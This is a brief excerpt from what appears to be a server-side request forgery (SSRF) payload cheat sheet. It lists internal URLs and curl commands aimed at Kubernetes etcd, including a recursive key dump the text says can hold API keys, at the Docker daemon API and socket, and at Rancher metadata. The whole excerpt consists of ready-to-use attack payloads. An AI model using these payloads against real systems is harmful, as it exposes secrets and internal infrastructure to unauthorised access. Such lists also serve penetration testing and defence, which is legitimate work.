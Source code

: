 **SSRF URL for Kubernetes ETCD**

Can contain API keys and internal ip and ports

```http
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

**SSRF URL for Docker**

```http
http://127.0.0.1:2375/v1.24/containers/json
Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

**SSRF URL for Rancher**

```
curl http://rancher-metadata/<version>/<path>
```
